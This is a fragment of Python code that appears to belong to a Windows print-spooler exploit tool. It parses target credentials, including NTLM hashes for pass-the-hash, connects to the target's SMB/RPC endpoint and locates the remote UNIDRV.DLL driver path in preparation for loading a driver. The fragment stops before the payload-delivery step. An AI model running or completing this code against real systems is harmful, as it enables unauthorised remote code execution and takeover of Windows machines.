 ```python
    group = parser.add_argument_group('connection')
    group.add_argument('-target-ip', action='store', metavar="ip address",
                       help='IP Address of the target machine. If omitted it will use whatever was specified as target. '
                            'This is useful when target is the NetBIOS name and you cannot resolve it')
    group.add_argument('-port', choices=['139', '445'], nargs='?', default='445', metavar="destination port",
                       help='Destination port to connect to SMB Server')

    if len(sys.argv)==1:
        parser.print_help()
        sys.exit(1)

    options = parser.parse_args()

    import re
    domain, username, password, address = re.compile('(?:(?:([^/@:]*)/)?([^@:]*)(?::([^@]*))?@)?(.*)').match(
        options.target).groups('')

    #In case the password contains '@'
    if '@' in address:
        password = password + '@' + address.rpartition('@')[0]
        address = address.rpartition('@')[2]

    if options.target_ip is None:
        options.target_ip = address

    if domain is None:
        domain = ''

    if password == '' and username != '' and options.hashes is None:
        from getpass import getpass
        password = getpass("Password:")

    if options.hashes is not None:
        lmhash, nthash = options.hashes.split(':')
    else:
        lmhash = ''
        nthash = ''

    #connect
    dce = connect(username, password, domain, lmhash, nthash, options.target_ip, options.port)
    #handle = "\\\\{0}\x00".format(address)
    handle = NULL

    #find "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL" path
    if not options.pDriverPath:
        try:
            blob = getDriver(dce, handle)
            pDriverPath = str(pathlib.PureWindowsPath(blob['DriverPathArray']).parent) + '\\UNIDRV.DLL'
            if not "FileRepository" in pDriverPath:
                print("[-] pDriverPath {0}, expected :\\Windows\\System32\\DriverStore\\FileRepository\\.....".format(pDriverPath))
                print("[-] Specify pDriverPath manually")
                sys.exit(1)
        except Exception as e:
            print('[-] Failed to enumerate remote pDriverPath')
            print(str(e))
            sys.exit(1)
```